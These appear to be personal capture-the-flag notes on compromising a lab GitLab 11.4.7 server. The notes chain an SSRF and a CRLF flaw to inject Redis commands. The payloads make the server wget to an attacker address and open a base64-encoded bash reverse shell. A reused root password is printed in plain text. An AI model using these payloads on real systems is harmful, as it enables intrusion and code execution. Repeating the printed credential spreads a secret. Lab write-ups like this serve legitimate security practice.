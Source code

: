 # Enumeration 

## open ports
```

```


### port 5080
![[Pasted image 20230306030457.png]]
registering an account then logging in
![[Pasted image 20230306033528.png]]
11.4.7 is vulnerable to CVE-2018-19571 (SSRF) + CVE-2018-19585 (CRLF) = RCE 
testing for redis 
`git://[0:0:0:0:0:ffff:127.0.0.1]:6379`
![[Pasted image 20230306045831.png]]
and it hangs which means it did connect to redis server
now we create a new request using Redis commands CRLF 
![[Pasted image 20230306054838.png]]

# Foothold 
using [gitlab_issues](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
and this repo[repo](https://github.com/jas502n/gitlab-SSRF-redis-RCE)
we can add this code to be read by redis server line by line and get RCE we can first test using wget 
```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|wget 10.10.16.15:9001 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
exec
exec
```
![[Pasted image 20230306065021.png]]
in the middle of the request after our URL which is `git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ffoo%2Ffoo.git`
decoded: `git://[0:0:0:0:0:ffff:127.0.0.1]:6379/foo/foo.git`
```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| wget 10.10.16.5:9001 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
```

we get a call back
![[Pasted image 20230306065149.png]]
first to not have many special chars in our reverse shell we gonna base64 the rev shell then decode it
![[Pasted image 20230306065448.png]]
`echo 'bash -i >& /dev/tcp/10.10.16.5/9002 0>&1' | base64`
`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzkwMDIgMD4mMQo= |base64 -d | bash`
![[Pasted image 20230306065633.png]]
first it didn't work but after URL encoding it worked
![[Pasted image 20230306070059.png]]
![[Pasted image 20230306070111.png]]z



# Privesc 



![[Pasted image 20230306070328.png]]
![[Pasted image 20230306071855.png]]
inside /opt/backup we found an smtp password which is also same as root
`wW59U!ZKMbG9+*#h`
now we can mount the disks we found earlier
![[Pasted image 20230306073236.png]]




# Loot
root password
	password: `wW59U!ZKMbG9+*#h`


---
Tags: #ctf #gitlab #SSRF #redis #CRLF  #CVE-2018-19571 #CVE-2018-19585 #docker 
Resources: 
[gitlab_issues](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
[repo](https://github.com/jas502n/gitlab-SSRF-redis-RCE)
[Automated tool](https://github.com/dotPY-hax/gitlab_RCE)